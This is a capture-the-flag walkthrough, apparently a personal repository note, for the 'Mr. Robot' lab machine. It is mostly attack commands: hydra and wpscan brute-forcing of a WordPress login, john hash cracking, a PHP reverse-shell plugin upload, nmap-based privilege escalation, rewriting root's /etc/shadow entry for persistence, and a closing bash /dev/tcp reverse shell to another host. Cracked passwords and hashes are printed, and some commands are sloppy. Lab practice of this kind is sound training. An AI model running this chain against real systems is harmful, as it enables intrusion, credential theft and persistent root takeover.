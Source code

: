 # Mr. Robot
_IP: 10.0.4.5_

The first thing I did was an nmap scan which you can find i this folder.
Basicly, it did not tell us much, but I found out that there is site running.

_The first thing I checked was:_
https://10.0.4.5/robots.txt

_This is what I've got:_<br>
User-agent: *<br>
fsocity.dic<br>
key-1-of-3.txt

> [!NOTE]
> _key-1-of-3.txt is a flag for ctf doers._

Let's try to hack the hash:
john --wordlist=fsocity.dic --format=raw-md4 hash.txt
There is no answer for this hash in fsocity.dic.

log=user&pwd=pwd&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1

curl -v --data 'log=user&pwd=pwd&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1' --cookie 'wordpress_test_cookie=WP+Cookie+check' http://10.0.4.5/wp-login.php

hydra -L fsocity.dic -p admin 10.0.4.5 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1:Invalid username" -V

[80][http-post-form] host: 10.0.4.5   login: Elliot   password: admin
found the right username. Now I am gonna look for a password

hydra -l Elliot -P fsocity.dic 10.0.4.5 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1:The password you entered" -V

Looks like it does not work.

But we know that there is a user named elliot.

WordPress version 4.3.32

hydra -t64 -L fsocity.dic -p test 10.0.4.5 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.0.4.5%2Fwp-admin%2F&testcookie=1:Invalid" -V

wpscan --url 10.0.4.5 --usernames Elliot --passwords fsocity.dic --password-attack wp-login

Do not forget to remove repeats
sort fsocity.dic | uniq > fsocity.dic 

To find how many lines left:
wc -l

Now we can do brute force again and hopefully we will find a password for the wordpress admin page
Username: Elliot
Password: ER28-0652

zip rev-plug.zip ./shell.php

upload the plugin, set up a nc listener, and activate the plugin. Now we have a reverse-shell.

We can see that there is a user named robot. Go to his folder and we will find:
key-2-of-3.txt
password.raw-md5

We do not have permission to read key-2-of-3.txt, but reading password.raw-md5 we will see:
robot:c3fcd3d76192e4007dfb496cca67e13b
Let's crack the hash.
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt robot_hash.txt
username: robot
password: abcdefghijklmnopqrstuvwxyz

use this command to upgrade the shell:
python -c 'import pty; pty.spawn("/bin/bash")'

Log in as robot.

And now we've got the second key.

we cannot run sudo. Let's look what we can do.

nmap -iL /etc/shadow

root:$6$9xQC1KOf$5cmONytt0VF/wi3Np3jZGRSVzpGj6sXxVHkyJLjV4edlBxTVmW91pcGwAViViSWcAS/.OF0iuvylU5IznY2Re.:16753:0:99999:7:::

WVLY0mgH0RtUI = mrcake

nmap --interactive
!sh

Then modify the password of root in /etc/shadow so that you can easily access it again.

root:WVLY0mgH0RtUI:16753:0:99999:7:::

LFILE=/etc/shadow
nmap -oG=$LFILE "root:WVLY0mgH0RtUI:16753:0:99999:7:::"

TF=$(sh)
echo 'os.execute("/bin/sh")' > $TF
./nmap --script=$TF

bash -i >& /dev/tcp/10.0.4.4/4444 0>&1
